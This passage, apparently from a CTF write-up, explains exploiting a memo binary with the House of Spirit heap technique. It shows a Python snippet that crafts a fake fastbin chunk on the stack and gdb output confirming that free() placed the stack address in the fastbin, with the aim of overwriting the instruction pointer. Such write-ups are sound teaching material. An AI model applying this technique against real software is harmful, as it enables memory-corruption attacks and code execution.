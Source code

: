 * We've got an overflow which can result into tampering the pointer that gets free'd and printed.
* We've got a tiny heap overflow but it's placed there on purpose. [House of Orange](https://github.com/shellphish/how2heap/blob/master/house_of_orange.c) isn't possible. Oh right, the heap overflow,
let me show what I mean by that. When we create a memo, we're asked if we're done with our input. If not, we're prompted with a new 
read which will read in once again **0x30** bytes but this time it will use the **pointer returned by strdup** as a buffer.

```c
else if (!strcmp(choice, "no")) {
  printf("Data: ");
  if (read(0, p->ptr, 0x30) <= 0) {
    puts("Read error!");
    exit(1);
  }
  ...
```

Even though that will cause a tiny heap overflow which is useless, what if we can leverage the fact that we control **what** gets
free'd into a stack overflow? ;) Oops, spoiler!

### House of Spirit

House of Spirit is a heap exploitation attack which is based on the fact that we can control over what gets free'd. By surgically
crafting a fake fast chunk at an arbitrary location that we have control over, we can make `malloc` return an arbitrary location.
Since we have control over the stack and we've got a stack leak already, it's possible to fool `malloc` into returning back a stack address
in order to overwrite the instruction pointer! Let me show you what I mean by that.

Consider the following scenario:

```python
fake_chunk  = p64(0x21)
fake_chunk += p64(0)
fake_chunk += p64(buf + 0x10)
fake_chunk += p64(0)
fake_chunk += p64(0x1234)

gup('no\x00'.ljust(0x8, '\x00') + fake_chunk)
```

```
buf --> 0x7fffffffe480:	0x0000000000006f6e	0x0000000000000021
        0x7fffffffe490:	0x0000000000000000	0x00007fffffffe490 <-- fake heap ptr
        0x7fffffffe4a0:	0x0000000000000000	0x0000000000001234 
        0x7fffffffe4b0:	0x0000000000400e20	0x00007ffff7a2d830
```

We have crafted a fake heap chunk on the stack. What if we call free on `0x00007fffffffe490`?

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x7fffffffe480 --> 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
```
